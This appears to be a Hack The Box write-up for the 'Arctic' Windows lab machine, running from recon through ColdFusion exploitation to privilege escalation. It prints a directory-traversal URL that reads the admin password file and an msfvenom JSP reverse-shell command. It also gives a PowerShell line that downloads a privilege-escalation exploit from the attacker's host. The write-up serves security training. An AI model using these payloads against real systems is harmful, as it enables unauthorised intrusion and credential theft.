 ```yaml
---
layout: post
title:  "HTB Artic Windows"
description : Tools and techniques used, LFI, hashkiller, jsp-shell
tags: HTB, Coldfusion, hashkiller, windows-suggester
---
```


# HTB Artic
# Recon

```ruby
Nmap scan report for 10.10.10.11
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
# Exploitation
* We noticed that port `8500` is open.This port is used for Adobe ColdFusion.
* We investigate further and we find a web app running.  

![](https://lh3.googleusercontent.com/MPpzTT1fUn_dnDqNFBouPgLrdpz42g_boV6kvtZ3zSICG9i2U-lt3006mkvihoNRm1oSaCHCi8iBmigihL0GfaSm95zNPU9BHLXOcgWb42UHFa_SHej_z9aegRpYcXxP_7n-AlseZt0y055LAPkdgum54nA9qfedtkcGDvXg5bRRPjn59IJtWHyI4QUommXcHA3jauzjo0XfeURw-k-rkL4dEMFmqE55yBRYW288P-Fzp6pB-f38WCBYo2c6-5lLHwVo4QdGCV05ddO7O2yn-xBAV0H-YHQvhaUpQ1CK-roJG0TA_QPONcsTi0NfLvtQwD-MPRswxMdSEPOASC2h1UD4C8NgvERwo8IuruMzy1S2j_aemAmaWLKvxYvQqe7Y83KFa_sfS7IwAetqCKdKbwSMXHWwy1aK1_eWIKWvmVncDqttJKd9OBjq8f6O8IFeNUeCnIfteEXLN4upff6w_dlw7fgcK2z42pEoE1VwRKFsqt5oUMN868TWmQp5EXI3cTGPstS_4zesKMIL_4Mm4hJaY11iYfJt8VYBhTSZB5zo6s-TgW2JU7JwwLI2pq4dC6VMNTZot-Uok4yJLrFsU8i_XQ9Jry6L5YDZBNT76Q6kwgXb2_2M1blO-8SgxhxZUK_z3ezZ8dZTUT8z8jueFt81cjDjutQwZ0Ct50GPVkg5bYl1AaNRRTo=w404-h195-no)

![](https://lh3.googleusercontent.com/1q7e_7yA20GcWefxFljf6vTMus6fJJgTnPKexMrJzFkmB23569xCcwDCI-BxlgO6VorvW1AHHx6WVy8XmLIZIjJDL6T5xcCNhMInaAcYMjI4yqc_LX1ma3krqMY-ODBUBJiGPoYYd883g3XdbqpNfEyGGntGnAvMI94h4r5hgPHo5sfcq4c24qGRygvGLgyy6to6V8Nr3zzGft3GdkfwzND_ZbkpVE_MMiyd0xAWCw_qp3xMIhIpOJjOmV0gGFXuoZtynOWAG7TkAmmAcuLjaqluMPPvYrSxgllQ1bcxYN1pm3geTJ3g3fU69Te6oESiQ9bcLfNOx0DJCxwWtKbhASc7YjjSnU-s-sx-kyl3c55zerlWuJAbEG8_u3aTIfBMOIpBR6rYNQL41UTrMhaCZpwyz1eopzxKtwexZTSBJSqIPgqB3EO3kmCKrBpoe1EZA7nlQh6sjE36lYxnVtzYAIdlRMUewU8yjhLAuXfTbFoJ4yUNZjo10iYnB785EZLzy3XpoHX1a6-tbzV8W3A8Htfa4kvGShj_BiuzEBiK9gl_wrEM1KolRwPToOc9h16EBtJm1F6ATh7Fl3xW8ugovrClcC6w7kL1-IMg0EWyFQC7yffOk-qisVZ7elliubcFO_CoKbygVv0hDn6MO9yq_AppdbZlf23kzdIiDhSboVBc2O98H56vJO8=w523-h297-no)

* Finally we we're able to locate the admin page. This provides us with very important information like the adobe version running.
* Some googlefu reveals that this version of Adobe is vulnerable to LFI.
- PoC:
```
 http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
```
* So we exploit the admin page to obtain the password hash for the admin user

![](https://lh3.googleusercontent.com/A22EMJ2VPNOYLkGD_fhb8FZODYdwUEF70hiMtKuMPrsFMN2QRrQtiYPrAZPp33oKbh9SUpP9jrDgC_x1KTXY20qqHWWSxcLOL9lrfkiIFqDUSY5CJYu7btbqeHQv82NtXIUW8nzVwX4ZGPfB3dgKSYXyL6QVwqA17I0fRlCcTtMt1LYZoduWkLrUmSsIPys0w-vFox_2FgaB2kakMItBT9Lby4AhQRMGvCfR4CurxMxkSbDohkio8qD54I4Z-aWAxZMdAf9PQzJXxcqLg035_M0_zhpZ30HVVYW3iFZ0I5oC7gPzxmUWESbbEgjgOmfQrowb3VQP2GEK9f-jtYBELSeDJ2KIs_OQ637jWgZQ2zu6L1PRtiOY7ah3QtscgFKicn52Q29XYw059K_SZX3sKJpPq-HwbnO2RuQJhjH1v7kvqm7XRiy35PKM7lA-bKZoBwLeDj54Gm48pQicOGWjWf8780LePz9-5GEQqjBK8JA1z4Pl6oq5rDVbcv5wz3HUnrZCYZjbVbwFnMhxmfOEvkY6tPg1eKtHjA4DoaqFIh0Zf2c-FMiN4wvwpE3g2Vs8v765muJEwQAWcFm5I3ImRUIxQ-7fw_qiuwFSnWbGeTjQnL58sJ63natllTMtoOW5mwXS754quSI4PP95T2H2bdJhwVRQngAqL6Vc2u0AS6b7znw0IGxv4yI=w520-h464-no)



* We crack the hash using a cracking website `https://hashkiller.co.uk/Cracker` and we our SHA1 password `happyday`

* We login using the admin password

![](https://lh3.googleusercontent.com/a0jn07Idy0VE8z77tsRLB2OsJdk07-9WyiXiFDOAAMECzfW5yClAyQDBtR911AtC2hMcV0HXk9CfnRwfl6OV_Xxdn-UGHlsrFArhFATwdMwOmobatWaPjsJFaSDpRPVnWmDWYRdokCne1PJXcR_fx-OOQce5W2mCNqYmyu2qzF4eYyQPfXzukDhDkIS2Sn05EYpeNa8C0spY-J08tPVIryxPWDs5Ddb1WvKqCRT7gWYPT0Aml-LQ5Ofq2bDFrhhwtUQOu2V9FYS84p06CV7DWuxGqtRV5sR5MHDTnnoWvawDyT2MeRG_uDlFL0JfEIx7A4_zVyifA3F9GPbSzG9pUUdPh26IWJZQKDRRNZXjo7ZqbdWnVtFVEC0JNFUqQqe3PR8vs2eIGN3aDpKo-_SVPUL44myOU8zr1EKqr5uSR2gNiPmB-P-2F8p5OY5FS54owfScwuJsyNh6TcR1_kpX4uLrjgVfVoz5GBjORHaXPbKPWh2yNlMipSRk30mUafo1ObJIw-ZCy5nWHW2dTw-r6Qy4kJzRdkPHAcvSkRN3lkXvtkkbTpS_IhS8FiBSd8-TvFf4k7hktXmIqVonquQY-82uhQOQhkj9fkJJZDdbce304fs__zSyT9QOCH43ZLQt3nJn4cCW3JXUhE9SMfaXfN6eVOtWZMbWSJT9iJbbAjVIKXunlUQXyvw=w601-h491-no)

# Exploitation
Once on the admin panel we choose scheduled tasks option from inside Debugging & logging for scheduling new task.
![](https://lh3.googleusercontent.com/LEq9ySUtSZiercJCBL1BhGUM9G7a3DF87T01ALBPnrg0Y6Q8lNkOuI-g0MuHjsu7p6A8kI4PsGmE8SjA_55jN8gHCOBKUIfXGAx9S3FYQyA0HTyV5qTZhYVAHj82MV4yn1QREOS9xrzSXy0IzIb32OGlRzcr_sEnFlpKG0eLEu77-dwmBaflfRN86vNzAvUu6OCrEsu0v4rSZYlfR9ysxs1X-qNDFzRQtFg7xsyRrZxsuFugvxhWv72kbzQDCV8_ry_4BAjw4gWgNOMM9DP-3AOKhi9LqD3dK3ru-HC2wRvZ-UAQMUVmwdHA2rbn9zH6O6HHHW-FG8FEqDgvW5U-EFxBiMvlmYQGlBRSPe1ru3t8aEn-pqOa39uOXLpPvw3N3dJNpSVJKHseXkR0OwfHVI_j6pcf2cPn_zIVIddDX9Vf3Hb4OmWxIz8iiHz84gtc4Q-sNaOSyd0RbeQqnAtxk5LrZVzvP3wd2VlC6daMVmy_I6qUc_4c2MV-mhKPrqQOBNx0KpNK-LY-d42bwa0Hw47v2D9d2hcOSr2a2mgWAnDMgJmJWpWxBpqLLUPuMwwpLQsq06IBT_KkT6VZoKHgq6xeKggKrOmKDsQR3yGHWS1u7VxH-r1HWQSnAv_iBG1lU-H5NnSftPZ7uzOGmByit4fBl5Kzf8YkqxNHVSqDF8iNKgjGujK0Xwk=w660-h411-no)

![](https://i1.wp.com/2.bp.blogspot.com/-LjTRFFM_1ro/Wr-nXwWY4mI/AAAAAAAAV5I/j392zbTSVSAnnxhTwrWklhQL0hizsgLiQCEwYBhgL/s1600/9.png?w=687&ssl=1)


From the schedule task settings we can upload or .jsp shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to
Connect On> -f raw > shell.jsp
```
We set up apache to serve our payload.
![](https://lh3.googleusercontent.com/Min2o6TIiNxI-w_6sZkca7T7KNOT1fNgjn6feJlQS2vkgQie689AejBaHHqejyQY-nFFpENPqcZ1DP4AVNFNkXg8_i0dC8sH0R_4wLjGEzn2r--p4UO3nANVgF5K7wUDqk-9PhUalvrVhRqZ5AUPOuM8blGw8xOicCz-FmtAYOaz1yLvAjCwC4qcZVnUUKLW9Spw3cbbcjRWvHtdgCeOpwRhMHKv5lRYu64cgp-ie_qWsFudR8CdHKVJHrm2VopUUgw3QyZY6bnrZu3LZLIlvaCsVTVPnQbszTmlaRcbwxxAg1pjzE0j8IarAgQuHq64pUlTRLXXTWDlCmPO1FpWIgldozhU8fqu7Gb3it-OStT-s15EHto_2afBh9kj08qj87rKy-iPYwijXt9lO9niZj8Z9aQ7xv4P497XaSm9oa9XwbwPfOKwLJKUbhuOCcXdpCX1tWBxqSddzWikNaFk-3QW92MbfxTCHxdPCPO3u9M3M45q2ACNrQ74zLefB-OLPnmWHEEK_pocCa5wDgBTLZek0_xSCLt_x7w0YyttR-ZkJzFVtOXaL_xlYlTaaERRFQoBdzpYb_xCc2-vacEkzyoRwJIvQPmQAsraTStiZOsafDPq-U0ebr-2XHg1G1kXDGs-tQaYY67jBu0JYLv5gbqjLzT03LGvU7znxeBUjxC9r2g41pY0u7o=w1027-h245-no)

Then we proceed to run the task so our payload can be executed
![](https://lh3.googleusercontent.com/veug3uR-KmVK52EuD7-30Ogj9fDcl5kKRq09M3GFg0kCYbjVrbqFxa5TRIdM3YQuWK_1f_s-Y1oeXgl3XT8IRIuDkrsblzW6ph5IC8jwPFmy8HlzTCdr69PdeWqfLr4xEUqdvzvdRnFlj6S4-JvlMKy7tPQVpmb9EmKWoMhRVH1ydrHKb-3CdqD0hOn-v_70n-SwVHiH_amiu5ZKzhRntirWYNadxOehED8INqiXltTb6FQCyX0mLf9bwDyhwkKDo62WqTELPqXmdeRb5YGYATRqLqHKTNw85eIwerUaacgw9NrfpiWbfcvtGrYzAGogC661qTV9k2ljwWrvmr-YJApEo77rVe-lSR4w9yc_AGDqfuBjkqpAk7SbGEzN0VFr3TYBuxOsFe2fnk_yBqCa2jfSVGlmmJ3eqhWl0l9VqcnSpQnJjvLLS2cumQm_czk1jQaTzi5L-zbEfuB4YWzSbtvc073MWyGJrMFiBAsoc1HRvsz0hrqCo2Uwp9C7yrK-w03YCauhxuA-iZiIcGqv_V9zED0bdMkxG6UIVBrEBMdcTZbIhUbXN22TOmyVctxcl6G_rzmpaoBslO4r1IHBrXw1JTeRh-ONNsVkeet4FS_aINDcThry4-qgQ7eKRx918zFAfKWl9Du7QPozdLVkoBMLKGwu54sRuZgYof_NTBzjrrw9V1O3fzE=w611-h256-no)

Finally, we set up an nc listerner and we catch our shell.
![](https://lh3.googleusercontent.com/W__r2reVLTX0-3dTnY1fHPVfnwnJnCudwSOdykpYWPwjtPnY9eeqNDYvmPvRKWiK3A7rk1v8vCi2aJTdacu0mqswn2NJuD5fXbcqSGmSQVn8DFfhq5XBqOpyYh8M8DREdpeW3_Tz0L8fV9ZtIcgIce_D83SYhDyXgCqh9l3bCUbjPPS2hgzqnmc4lEniZqf_H1az5vrXe_b5z5kt1sSGbhtbMrmANvjIqDswKKOFfECRsImNYwQhWN_h2cECwoh9ZSbdmLSsGL1YWLeO5Ul_HyflbSE1RReHm4U2Myc_D2D6Slmw_xMUNhfAdttVj66vy-Ve1oyY0QER_zDMEuoKvrYdI7ySFZrp7yJ7ZKSkJiCe1huswyJAHvyeE4fdNU8ffRdWiWMooQFD3aHcSx1vi3YyDqmOWhzsjWrkrsUzdqhOWUC-N86nnVxWhcUFV99yhc7sShtymX9xES1mFKtPdUpwdMbG0PNMbSTpZx6chrAQKZqM36IfGUjkx6fDwsJFCQDp4VHp10-4CrGU1W4PsL3Vo7imPTZfDQ1mwHm2mZDyE6cddXMojT2nB6GhU5AKkTUL9GQpqllKyfsHJ1UU1SQ4WjvJW74OKso5Nf2CAHHw9Psa5lPQXGNAc-Z-oRFznWSL6nGYXC6bQdoPhwTxGb4SwyB7sJiik-h_6Tvn4ECV3foiSMLWsmY=w671-h230-no)

# Privilege Escalation
We run windows suggeters and after a lot trials and errors I find a suitabl exploit
* MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)

```ruby
python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo
systeminfo.txt
```
After some google I find a compiled version of the exploit, we dowload the file and run it
```
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.14/
Chimichurri.exe', 'Chimichurri.exe')"
```
![](https://lh3.googleusercontent.com/epn8X8AntKErOlKnNUuVw1nK6LXq32S5kuCC27WqFVE21wmFWkCB0jYswzA_R7FE_VySFOnC35HPiUsp-WdXHusyJfK8T8kl2gqw3GX0pcEIf9Dsnq4E26YeIipm-09eV3ChIW3-hsAe_iKKLQ1JGDNB6bd5UYKIujfoZwlfk5db_H9YIIrggCJz0fWKfkXOd9toqrK2TimuVtTkUYC8VEJHTeCE0GMTICabHeERzM1chvTHUsR93mbj3_JsTOrK3xpWlUcKpxcxssonCXrQwNO82yWvsRP15n5eWa7OYMD76iDbi8aAfUr1b2TdlNaHdIl3Js7C4SPv4cpWd46WBt640jSm2hC8F8Kf61FqjzTPIhwvRRiyQRxMdqnNttv0Wepn1fQ3VNd5EMo67kDP6ZEAlVtbutI6FpZ3SdFhr0F0jawrgxTEvh6QdoyVE7e-Mj_IxJDJYPcA-_f8hAv0_Zi-7H09pMAL6zt-BGCqCe5-4pydPNOQi7pZuRff1KKChiv8SlawqG1-G5V6O0INztk4vxIJTUFCLTfK8GQXi2A-XOtuCwMJgNX0PgfyS4HG1TyVxrli9YE_32uTj8dUnMRlkY_7a8vlKe7Oty-_b4sJ2g66fCSVZx5PlhO8vvNOsempaSCwGl6U9r9GIy6m7fM7IikramDNYbZHfKB5BPqrrFawAk-La2M=w1327-h497-no)

![](https://lh3.googleusercontent.com/diUlDO3Ebgxfj1_edvI_NVTUb5dJNV_ffuJ_cUVOToqr3JwXpfRmx94DtSnrxXSL2w4QoG7h5hZIt468Lg_btTvVgQGA4AU-7wN9FoYz1IKx4bG_0GknHdZYQh0Oc-YQXdEHYnUaAPt7dVcNxGhzUdRkAi06ZzZDrBWUwzG45yRbbMpq7IZe5x7Gc6GUx8HIs9qHi__LjFqgQQhmBsiwuIGGYT0_dSTG5xvdAB1JLNte7YUZ5FaDzdMWRNQWUO5ExoD_G9hm27znUO_sAttyJkS2o_B1c6zHB3brIkJMgot6GqvJJuiIG__CRkZJ7q5_m32jCjFhqagmpIhl1XkXYJKMLKLq6b6UXu3lpWQoAUV7kU5z1nJ0BD1ztKnRFToZTewG0rc6aCTJHF0O8w_G28KMLtS5_786lodnceDdEEIzh4kf5h_JxsbZjSXiFTPlCwQUU_tZb8HJwQxsYdnWTkm7GMcluG_0z68Bt5vmrToLJ6v_r2eXjmPyxSRh1-6ZwSTv9MvKD0jcaxBzVYtiU_Pivk-VzTrOrtqNNNVZTCQhx22OlXlRV-0-A_FeTvPAa2tzLYjsLQ3EvIgUBLOFMQkKCdcRZwR7lGK2LCtJDDgcr8xlj9rIVOS3djjGKJETRLspPm_54KCkvhX3XbRnDAwMSL6a-ZgmPQXNzyHCLNh_xbk6Gut-8TM=w640-h466-no)

```ruby
USER '02650d3a69a70780c302e146a6cb96f3
ROOT 'ce65ceee66b2b5ebaff07e50508ffb90
